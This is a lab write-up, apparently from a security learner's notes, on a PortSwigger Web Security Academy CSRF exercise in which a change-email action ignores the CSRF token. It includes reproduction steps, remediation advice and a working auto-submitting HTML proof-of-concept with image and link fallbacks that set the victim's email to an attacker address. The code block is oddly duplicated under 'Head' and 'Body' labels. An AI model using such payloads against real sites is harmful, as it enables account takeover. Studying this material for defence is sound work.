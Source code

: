 # PS-006 — CSRF: Missing/Invalid Token
**Date / Analyst:** 2025-09-08 — Christopher Araque
**Target:** PortSwigger WSA (CSRF basic, token missing/ignored)

## TL;DR
A state-changing action (e.g., change email) succeeds without a valid CSRF token.
**Impact:** attacker can alter account data via a lure link or auto-submitting page.
**Fix:** per-request, unpredictable tokens; validate Origin/Referer; SameSite cookies.

## Scope & Context
- Endpoint: `/my-account/change-email`
- Auth context: logged-in user (wiener)
- Method: GET (token ignored)
- Token present, but ignored for GET; request succeeds without CSRF validation.
## Steps to Reproduce
1) Log in. Find a state-changing action (change email/password/add comment).
2) Capture request (Burp/DevTools). Confirm token is missing/ignored/static.
3) Build a PoC page that auto-submits the same request from a third-party context.
4) While logged in, open the PoC → observe server-side change.

## Evidence
- Request/Response: [ps-006-request.txt](../../evidence/ps-csrf/ps-006-request.txt)
- Screenshot: ![PS‑006](../../evidence/ps-csrf/ps-006-screenshot.png)

## PoC (edit action/fields)
```html
Head:
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Cache-Control: no-store

<!doctype html>
<html>
  <body>
    <form action="https://<lab-host>.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="victim%40evil.com">
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>

Body:
<!doctype html>
<html>
  <body>
    <!-- Auto-submit GET request that bypasses CSRF token enforcement -->
    <form action="https://<lab-host>.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="victim%40evil.com">
    </form>
    <script>document.forms[0].submit();</script>

    <!-- Fallback (works even with JS off): -->
    <img src="https://<lab-host>.web-security-academy.net/my-account/change-email?email=victim%40evil.com" style="display:none">
    <noscript>
      <a href="https://<lab-host>.web-security-academy.net/my-account/change-email?email=victim%40evil.com">Click here</a>
    </noscript>
  </body>
</html>

## Impact
Email change ➜ password reset ➜ potential takeover

## Recommended Remediation
- Enforce **per-request, unpredictable CSRF tokens** bound to user/session.
- **Validate Origin/Referer** on state-changing requests.
- Set cookies with **SameSite=Lax/Strict**, **HttpOnly**, **Secure**.
- Deny state-changing **GET**; prefer **POST** with CSRF defenses.

## Notes
- If token exists but action still succeeds when removed/altered → “token not validated”.
- If token is static or leaked in GET, document the weakness.
